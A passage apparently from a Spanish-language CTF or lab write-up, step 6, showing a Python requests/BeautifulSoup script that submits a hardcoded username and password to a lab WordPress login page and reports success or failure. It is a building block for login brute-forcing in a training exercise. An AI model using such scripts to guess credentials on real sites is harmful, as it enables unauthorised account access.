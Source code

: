 ## **Paso 6: Optimización del Código**

Se realizaron mejoras en la estructura y en los encabezados de la petición.

```python
import requests
from bs4 import BeautifulSoup

url = 'http://escolares.dl/wordpress/wp-login.php'

usuario = 'luisillo'
password = 'Luis1981'

headers = {
    'Host': 'escolares.dl',
    'User-Agent': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:126.0) Gecko/20100101 Firefox/126.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3',
    'Accept-Encoding': 'gzip, deflate, br',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://escolares.dl',
    'Connection': 'keep-alive',
    'Referer': 'http://escolares.dl/wordpress/wp-login.php',
    'Upgrade-Insecure-Requests': '1',
    'Priority': 'u=1'
}

payload = {
    'log': usuario,
    'pwd': password,
    'wp-submit': 'Acceder',
    'redirect_to': 'http://escolares.dl/wordpress/wp-admin/',
    'testcookie': '1'
}

with requests.Session() as session:
    session.get(url, headers=headers)
    response = session.post(url, headers=headers, data=payload, allow_redirects=True)
    
    soup = BeautifulSoup(response.text, 'html.parser')
    error_message = soup.find('div', {'id': 'login_error'})
    
    print(f"Intentando con la contraseña: {password}")

    if error_message:
        print(f"Login fallido con la contraseña {password}")
    else:
        print(f"Login correcto con el usuario {usuario} y contraseña {password}")
```

---

